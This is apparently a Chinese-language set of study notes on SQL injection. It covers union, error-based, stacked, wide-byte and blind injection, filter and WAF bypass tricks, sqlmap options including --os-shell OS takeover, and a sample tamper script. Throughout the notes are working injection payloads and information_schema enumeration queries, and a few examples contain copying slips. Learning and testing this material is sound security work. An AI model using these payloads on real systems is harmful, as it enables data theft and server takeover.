


# SQL注入漏洞

> 做测试的时候，只要跑到数据库名即可，点到为止

### 一、SQL基础

1. Mysql基础内容详见：[Mysql基础.md](../MySQL基础.md)

2. 查询子句`order by 数字`：以第几列为依据进行排序，而**数字大于列数会报错**，我们可以根据这一点确定表的列数

3. **mysql注释**：用来截去不需要的SQL指令

   > `#注释`：`#`在get请求中会被当作锚点而被忽视，需要使用`%23`代替`#`
   >
   > `-- 注释`：空格在URL当中需要使用`+`代替，`+`进行URL解码之后会变为空格
   >
   > `/*注释*/`
   >
   > `/*!注释*/`：内联注释注释的语句能够正常执行

4. mysql的信息收集：使用select语句可以直接查询

   > 版本信息：`version()`或`@@version`
   >
   > 当前数据库：`database()`
   >
   > 返回当前数据库所在路径：`@@datadir`
   >
   > 操作系统版本：`@@version_compile_os`
   >
   > 连接数据库的用户名：`session_user()`
   >
   > 系统用户名：`system_user()`

5. mysql中的逻辑函数：

   > 与（同真为真，一假为假）：`and`
   >
   > 或（一真为真，同假为假）：`or`

6. **information_schema**数据库：Mysql5.0及以上版本系统自带的存储数据库所有信息的数据库，提供了访问元数据的方式

   

   > SCHEMATA表：提供了当前mysql数据库中所有数据库的信息，其中SCHEMA_NAME字段保存了所有的数据库名，`show databases`的结果取自此表
   >
   > 
   >
   > ---
   >
   > TABLES表：提供了关于数据库中的表的信息，详细地描述了某个表属于哪个schema、表类型、表引擎、创建时间等信息，其中table_name字段保存了所有列名信息，`show tables from schemaname`的结果取自此表
   >
   > 
   >
   > ---
   >
   > COLUMNS表：提供了表中的列信息，详细表述了某张表的所有列以及每个列的信息，其中column_name保存了所有的字段信息，`show columns from schemaname.tablename`的结果取自此表
   >
   > 

### 二、SQL注入基础

1. 原理：将SQL代码插入或添加到用户输入参数中的攻击，web服务器因为过滤不严将这些参数传递给SQL服务器，SQL服务器将这些参数当作SQL代码进行执行，并向web服务器返回结果

2. 产生原因：web应用程序对用户输入的数据没有进行严格的过滤，把SQL语句带进数据库查询

3. 危害：

   > * 绕过登录验证：使用万能密码登录网站后台
   > * 获取敏感数据：获取网站管理员账号、密码
   > * 文件系统操作：列目录，读取、写入文件
   > * 注册表操作：读取、写入、删除注册表
   > * 执行系统命令：远程执行命令

4. 分类：

   > 按照注入位置分类：
   >
   > 1. get注入
   > 2. post注入
   > 3. head头注入
   >
   > ---
   >
   > 按照注入方式分类：
   >
   > 1. 有回显的注入
   > 2. 盲注
   > 3. 二次注入
   > 4. 报错注入
   > 5. 堆叠注入
   > 6. 宽字节注入

5. SQL注入的简单检测：在参数后加上`'")`，如果出现SQL错误或者出现不回显，则90%存在注入，且闭合方式为三者之一

6. SQL注入的位置：参数值、Cookie、目录名、文件名…

7. SQL漏洞的判断依据：根据客户端返回的结果判断提交的SQL语句是否被数据库引擎执行

8. 字符型注入：

   ~~~text
   # 如：$sql = "SELECT * FROM users WHERE id = '{$id}' LIMIT 0,1;"
   ?id=1'and'1'='1   变为→   WHERE id = '1' and '1'='1'    →   WHERE id = '1'   				# 页面返回正常
   ?id=1'and'1'='2   变为→   WHERE id = '1' and '1'='1'    →   WHERE id = False      		# 页面返回异常
   ?id=1 and 1=1     变为→   WHERE id = '1 and 1=1'   	  →   WHERE id = '1 and 1=1' 		# 页面返回正常
   ?id=1 and 1=2     变为→   WHERE id = '1 and 1=2'   	  →   WHERE id = '1 and 1=2' 		# 页面返回正常
   ~~~

   > 需要在注入点后增加闭合符号和注释符，使SQL语句符合规范

9. 数字型注入：

   ~~~text
   # 如：$sql = "SELECT * FROM users WHERE id = {$id} LIMIT 0,1;"
   ?id=2-1			  变为→   WHERE id = 2-1		   	  →   WHERE id = 1 			# 页面返回正常
   ?id=1 and 1=1     变为→   WHERE id = 1 and 1=1   	  →   WHERE id = 1 			# 页面返回正常
   ?id=1 and 1=2     变为→   WHERE id = 1 and 1=2   	  →   WHERE id = False 		# 页面返回异常
   ~~~

   > 数字型注入没有闭合方式，但是可能要添加注释符

10. 可能可以代替空格的符号：

    > 空格：%a0
    >
    > 水平制表符：%09
    >
    > 垂直制表符：%0b
    >
    > 回车：%0a
    >
    > 新建一页：%0c
    >
    > return功能：%0d
    
11. 可以使用like代替等于号

### 三、联合注入

1. 注入条件：在找到注入点后，必须根据网页的返回值来确定回显位置（即回显的字段在表中的位置）

2. 注入原理：通过union查询增加查询结果

3. 利用：union联合查询

   > union联合查询：将多次的查询结果纵向合并
   >
   > ~~~mysql
   > select 语句
   > union[ union选项]
   > select 语句;
   > ~~~
   >
   > * `union选项`：（与select选项基本一样）
   >   1. `distinct`：（默认）去重
   >   2. `all`：保存所有数据

4. 利用：`concat()`、`concat_ws()`、`group_concat()`

   > `concat(str1,str2,str3,…)`：连接多个字符串，中间没有分隔符，但可以手动增加（如：`concat(str1,' , ',str2);`）
   >
   > `concat_ws(ch,str1,str2,…)`：使用ch当作分隔符，连接多个字符串
   >
   > `group_concat(字段名)`：将该字段中的所有数据使用`,`分隔并连接成字符串

5. 联合查询注入的步骤：

   > 1. 寻找注入点：在参数后加上`'")`，如果出现SQL错误或者出现不回显，则90%存在注入
   >
   > 2. 寻找闭合方式：利用`'`、`"`、`)`之一加上注释执行返回正常页面，则闭合方式就是对应的符号
   >
   > 3. 判断字段数：利用`order by`语句，判断字段数
   >
   >    > `id = a' order by 3%23`
   >    >
   >    > `order by n`正常，`order by n+1`报错，则字段数为n
   >
   > 4. 判断回显位置：使用联合查询
   >
   >    > 第三步判断有n个字段数，则可以执行`正常select语句 union select 1,2,…,n`，输出的数字即为回显位置
   >    >
   >    > 但是如果只能输出一行语句，需要让正常select语句没有输出，如增加一个判断`and '1'='2'`
   >
   > 5. 在有回显的位置上（假设回显位置为2），查询想要查询的信息：库名、表名、列名、数据
   >
   >    > **语句的位置**：$id = 1' and '1'='2' union 【语句位置】 %23
   >    >
   >    > 查询当前库名：`select 1,database(),3`
   >    >
   >    > 查询所有的数据库：`select 1,group_concat(schema_name),3 from information_schema.schemata`
   >    >
   >    > 查询当前数据库下的所有表：`select 1,group_concat(table_name),3 from information_schema.tables where table_schema=database()`
   >    >
   >    > 查看某表中的所有字段：`select 1,group_concat(column_name),3 from information_schema.columns where table_name='需要查询的表名' and table_schema='该表所在的数据库名'`
   >    >
   >    > ---
   >    >
   >    > 在获取字段和表的数据之后，就可以使用select语句查看任意数据了

6. Note：联合注入只能执行查询语句

7. 联合注入过滤手段：使用preg_replace() 函数进行替换

   > `mixed preg_replace($pattern, $replacement, $subject[, $limit=-1[, &$count ]])`
   >
   > 参数说明：
   >
   > - $pattern: 要搜索的模式，可以是字符串或一个字符串数组。
   > - $replacement: 用于替换的字符串或字符串数组。
   > - $subject: 要搜索替换的目标字符串或字符串数组。
   > - $limit: 可选，对于每个模式用于每个 subject 字符串的最大可替换次数。 默认是-1（无限制）。
   > - $count: 可选，为替换执行的次数。

   ~~~php
   // 过滤注释符：/*、--、#
   $id= preg_replace('/[\/\*]/','',$id);
   $id= preg_replace('/[--]/','',$id);
   $id= preg_replace('/[#]/','',$id);
   // 过滤空格
   $id= preg_replace('/[ +]/','',$id);
   // 过滤select、union、SELECT、UNION、Select、Union
   $id= preg_replace('/select/m','',$id);
   $id= preg_replace('/union/s','',$id);
   $id= preg_replace('/select/s','',$id);
   $id= preg_replace('/UNION/s','',$id);
   $id= preg_replace('/SELECT/s','',$id);
   $id= preg_replace('/Union/s','',$id);
   $id= preg_replace('/Select/s','',$id);
   // 过滤union+任何空白字符+select
   $id= preg_replace('/union\s+select/i','',$id);
   ~~~
   
   绕过方法：使用`%0d`代替空格，使用` ||'`代替注释，使用大小写交替的写法绕过黑名单过滤，使用`union all select`绕过`union\s+select`的探查

### 四、报错注入

1. 注入条件：在找到注入点后，找不到回显位置，但存在报错回显

2. 注入原理：通过特殊函数错误使用使其输出错误结果

3. 报错注入常用的函数：能够错误地使用函数，使其输出可控的错误信息

   > `updatexml(XML_document, XPath_string, new_value);`
   >
   > > 第一、第三个参数随便赋值（一般赋值为1）；在第二个参数前后添加`~`[^注][0x7e]使其不符合xpath的格式而报错
   > >
   > > 报错的内容为第二个参数值中的SQL语句被执行的返回结果，长度限制为32位
   > >
   > > payload：`and (updatexml(1,concat(0x7e,(SQL语句),0x7e),1))`
   >
   > ---
   >
   > `extractvalue(XML_document, Xpath_string);`
   >
   > > 第一个参数随便赋值（一般赋值为1）；在第二个参数前后添加`~`[0x7e]使其不符合xpath的格式而报错
   > >
   > > 报错的内容为第二个参数值中的SQL语句被执行的返回结果，长度限制为32位
   > >
   > > payload：`and (extractvalue(1,concat(0x7e,(SQL语句),0x7e)))`

   > 实例：
   >
   > 

   [^注]:不一定要使用`~`，也可以使用像`!`这样的特殊字符。也不一定要使用十六进制，使用'~'也行

4. 绕过长度限制的方法：多次查询，组合输出值

   > 1. 使用`not in`让select的结果排除已经输出的字段
   >
   >    
   >
   > 2. 使用mid函数或substr函数截取输出：第一个输出的数据必须是完整的
   >
   >    > `MID(column_name,start[,length])`：从文本字段中提取字符
   >    >
   >    > 
   >    >
   >    > `substr(string,start,length)`：同上
   >
   >    
   
5. Note：报错注入只能执行查询语句

### 五、堆叠注入

1. 注入条件：只有在PHP使用了`mysqli_multi_query()`函数的情况下，才能利用堆叠注入

   > mysqli_multi_query(mysqli `$link`, string `$query`): bool
   >
   > 执行一条SQL 语句或者执行多个使用分号分隔的 SQL 语句

2. 注入方法：在每一条SQL语句的结束加上`;`，就可以执行任意数量的SQL语句

3. Note：堆叠注入可以执行任意语句

### 六、宽字节注入

1. 注入条件：数据库编码为gbk编码

2. 注入原理：宽字节注入，又称gbk双字节绕过。利用gbk编码的特性，将汉字的第一位提取出来，与被过滤的字符相连，从而去除掉被转义的字符前的`\`

   > gbk编码：普通字符占一个字节，汉字占两个字节，且两个字节的十六进制编码都比0x7F大（0x7F是普通字符中十六进制编码最大的一个）。在使用gbk编码时，若是检测到某一个字节比0x7F大，则会默认地与它后面的一个字节匹配构成一个汉字
   >
   > 注：在URL编码中 —— '：%27   |  "：%22  |   (：%28
   >
   > ---
   >
   > SQL注入最通用的防御方法是使用Mysql中的转义函数，会在特殊字符前加上`\`进行转义
   >
   > 如： `addslashes(string)`：返回在预定义字符（`'`、`"`、`\`、`NULL`）前添加反斜杠的字符串

3. 注入步骤：在联合注入的基础上，要用到特殊符号时，在其前面插入`%AA`或其它大于`%7F`的编码数据

4. 示例：

   

### 七、盲注

1. 本质：猜解

2. 介绍：在页面上看不到返回数据的情况下，通过感觉（差异）来判断

3. 流程：以下演示的代码为布尔盲注的代码，使用时间盲注大同小异

   > 1. 判断是否存在注入（单/双引号判断）
   >
   >    > 布尔盲注：先判断注入类型（数字型，字符型），再查看页面有无差异
   >    >
   >    > 
   >    >
   >    > 时间盲注：先判断注入类型（数字型，字符型），再看是否可以挂起程序
   >    >
   >    > 
   >
   > 2. 获取数据库长度
   >
   >    > id=1' and length(database())>5%23
   >
   > 3. 逐字猜解数据库名
   >
   >    > id=1' and substr((select database()),1,1)='a'%23
   >
   > 4. 猜解表名数量
   >
   >    > id=1' and (select count(table_name) from information_schema.tables where table_schema=database())>5%23
   >
   > 5. 猜解某个表名长度 -- 通过limit限制单个表
   >
   >    > id=1' and (select length(table_name) from information_schema.tables where table_schema=database() limit 0,1)>5%23
   >
   > 6. 逐字猜解表名
   >
   >    > id=1' and substr((select table_name from information_schema.tables where table_schema=database()  limit 0,1),1,1)='a'%23
   >
   > 7. 猜解列名数量
   >
   >    > id=1' and (select count(column_name) from information_schema.columns where table_name='表名' and table_schema=database())>5%23
   >
   > 8. 猜解某个列名长度 -- 通过limit限制单个字段
   >
   >    > id=1' and (select length(column_name) from information_schema.columns where table_name='表名' and table_schema=database() limit 0,1)>5%23
   >
   > 9. 逐字猜解列名
   >
   >    > id=1' and substr((select column_name from information_schema.columns where table_name='表名' and table_schema=database() limit 0,1),1,1)='a'%23
   >
   > 10. 判断数据数量
   >
   >     > ?id=1' and (select count(字段名) from 数据库名.表名)>5%23
   >
   > 11. 猜解某条数据长度 -- 通过limit限制单个数据
   >
   >     > ?id=1' and (select length(字段名) from 数据库名.表名 limit 0,1)>5%23
   >
   > 12. 逐位猜解数据
   >
   >     > ?id=1' and substr((select length(id) from hetianlab.comment limit 0,1),1,1)='a'%23

4. 相关函数：SQL语句需嵌套在`()`中

   > * **`length()`**：返回字符串长度
   >
   > * **`substr(string,start,length)`**：对string从start开始截取length长度，同`mid()`函数
   >
   > * `ascii()`：返回指定字符的ASCII编码
   >
   > * `left(string,length)`：从最左边截取length个字符
   >
   > * `right(string,length)`：从最右边截取length个字符
   >
   > * **`count()`**：返回数组中元素的数目，用例：`select count(*) from mytable`
   >
   > * **`limit`**：
   >
   >   
   >
   > * `sleep(x)`：将程序挂起x秒
   >
   > * `if(a,b,c)`：如果a正确，则返回b；反之返回c

5. 布尔盲注：

   > 1. 使用场景：在SQL语句有返回值的时候与没有返回值的时候返回的页面有差异
   >
   > 2. 使用方法：利用and语句对某个判断语句的真假进行判断，从而获取结果
   >
   >    > 如：`select * from mytable where id = 1 and length(database())>5%23`，可以判断当前数据库名的长度
   >
   > 3. 示例：【注入点为：`select * from mytable where id ={$sql}`】
   >
   >    > 检测数据长度：`-1 and length(SQL语句)>5%23`
   >    >
   >    > 使用burp爆破模块测试数据值：
   >    >
   >    > `1%27%20and%20substr((select%20database()),§1§,1)=%27§a§%27%23`：第一个爆破点为爆破的位置，第二个爆破的是比较时的参数
   >    >
   >    > 
   >    >
   >    > ---
   >    >
   >    > 
   >
   
6. 时间盲注：

   > 1. 使用场景：在SQL语句有返回值的时候与没有返回值的时候返回的页面不存在差异
   >
   > 2. 使用方法：利用`sleep()`函数通过执行时间来判断是否正确
   >
   >    > `if(判断语句,sleep(3),0)`
   >    
   > 3. 对比：时间盲注和布尔盲注唯一的区别就是布尔盲注可以从浏览器的页面中看出语句正确与否，而时间盲注则不行，所以需要通过`sleep()`函数修改页面的返回时间进行判断，使用burp进行爆破时，因为返回包长度的差异可以直接判断判断语句的正确性，所以不需要使用`sleep()`函数
   >
   >    
   
7. 盲注中使用burp爆破：

   > 1. 原理：通过burp的intruder模块，爆破两个点——
   >
   >    > 1. 需要爆破的位置：`substr()`的第二个参数，设置的是【1~长度】
   >    > 2. 爆破用到的字典：`substr()`后的值
   >
   > 2. 步骤：以爆破数据库名为例
   >
   >    > 1. 设置爆破点：
   >    >
   >    >    
   >    >
   >    > 2. 设置第一个参数：
   >    >
   >    >    
   >    >
   >    > 3. 设置第二个参数：
   >    >
   >    >    
   >    >
   >    > 4. 开始爆破，通过返回包的长度判断是否成功即可
   >    >
   >    >    

### 八、Sqlmap的使用

1. 介绍：Sqlmap就是对SQL注入漏洞进行自动化检测的工具，可以获取数据库的记录、访问操作系统文件，若为root权限甚至可以执行操作系统的命令

2. [下载地址](https://github.com/sqlmapproject/sqlmap)

   [中文手册](https://github.com/itechub/sqlmap-wiki-zhcn/releases)

3. 用法：`python sqlmap.py [选项]`

   > **常用选项 ——** 
   >
   > * `-u`：指定可能存在SQL注入漏洞的地址
   > * `--users`：枚举出数据库管理系统中的用户
   > * `--current-user`：获取当前执行操作的用户
   > * `--is-dba`：探测当前用户是否为DBA（数据库管理员）
   > * `--dbs`：枚举所有的数据库名
   > * `--current-db`：获取当前数据库名
   > * `-D`：指定要枚举的数据库名
   > * `--tables`：枚举出`-D`指定数据库的所有的数据库名
   > * `-T`：指定要枚举的表名
   > * `--columns`：枚举出`-D`和`-T`参数指定出来的表中的所有字段
   > * `-C`：指定要枚举的字段名，可以使用`,`连接枚举多个字段
   > * `--dump`：枚举出`-D`、`-T`和`-C`指定的字段名
   >
   > ---
   >
   > **其它选项 ——**
   >
   > * `--technique`：选择使用的注入技术（BEUSTQ）
   >
   >   > B：布尔盲注		E：报错型注入		U：联合查询注入		S：堆查询注入		T：时间盲注		Q：内联查询注入
   >
   > * `--risk`：设置风险等级，数值为1到5，一般设置为3
   >
   > * `--level`：设置检测级别，数值为1到5，一般设置为3
   >
   > * `--proxy=http://127.0.0.1:8080`：设置代理，可以通过代理服务器查询脚本执行的命令
   >
   > * `--batch`：以非交互模式运行，当 sqlmap 需要用户输入信息时，都将会以默认参数运行
   >
   > * `-r`：加载一个文件
   >
   > * `-p`：指定SQL注入点（需要测试的参数）
   >
   > * `-m`：从给定的文本文件读取多个目标进行扫描
   >
   > * `-l`：从 Burp或 WebScarab代理的日志文件（log）中解析目标地址
   >
   > * `--smart`：只有在使用启发式检测时才进行彻底的测试，配合`-l`使用
   >
   > **接管操作系统的命令 ——** 
   >
   > * `--os-cmd=命令`：执行指定的命令
   > * `--os-shell`：模拟一个可以执行任意操作的shell，退出使用`exit`命令
   >
   > ~~~text
   > 接管操作系统命令执行条件：
   > 1. 需要当前用户为DBA
   > 2. 需要知道网站的后端语言
   > 3. 需要知道网站根目录
   > ~~~

4. 与Burp组合利用：

   > 1. burp抓包并保存：
   >
   >    
   >
   > 2. 使用语句`python sqlmap.py -r 1.txt --risk 3 --level 3 --batch`跑即可

5. sqlmap tamper的编写与代理设置

   >    1. 介绍：使用SQLMap提供的tamper脚本，可以在一定程度上避开应用程序的敏感字符过滤、绕过WAF规则的阻挡，继而进行渗透攻击，简单来说就是用来**绕过WAF**的
   >
   >    2. 位置：写在Sqlmap目录下的tamper文件夹内
   >
   >    3. 使用：利用`--tamper=脚本名称`来绕过（脚本名没有后缀）
   >
   >    4. 编写示例：
   >
   >       ~~~python
   >       #!/usr/bin/env python
   >                            
   >       """
   >       Copyright (c) 2006-2021 sqlmap developers (http://sqlmap.org/)
   >       See the file 'LICENSE' for copying permission
   >       """
   >                            
   >       import re
   >                            
   >       from lib.core.enums import DBMS
   >       from lib.core.enums import PRIORITY
   >                            
   >       __priority__ = PRIORITY.LOW
   >                            
   >       def dependencies():
   >           pass
   >                            
   >       def tamper(payload, **kwargs):
   >           payload=payload.replace('SELECT','se select lect')		# 双写绕过
   >           payload=payload.replace('FROM','FrOm')					# 大小写绕过
   >           return payload
   >       ~~~
   >
   
6. [实战](../Sqlmap实战笔记.md)

### 九、绕过过滤的方式

1. 双写绕过：

   > select → selselectect
   >
   > union → union
   >
   > 注：有些时候过滤时会包括空格，可以在双写时加上空格进行尝试：union → uni union on 或 union → un unionion

2. 大小写绕过

   > select → SeLEct
   
3. 可以使用like代替等于号绕过过滤

4. 可以使用%0a（换行）代替空格绕过过滤
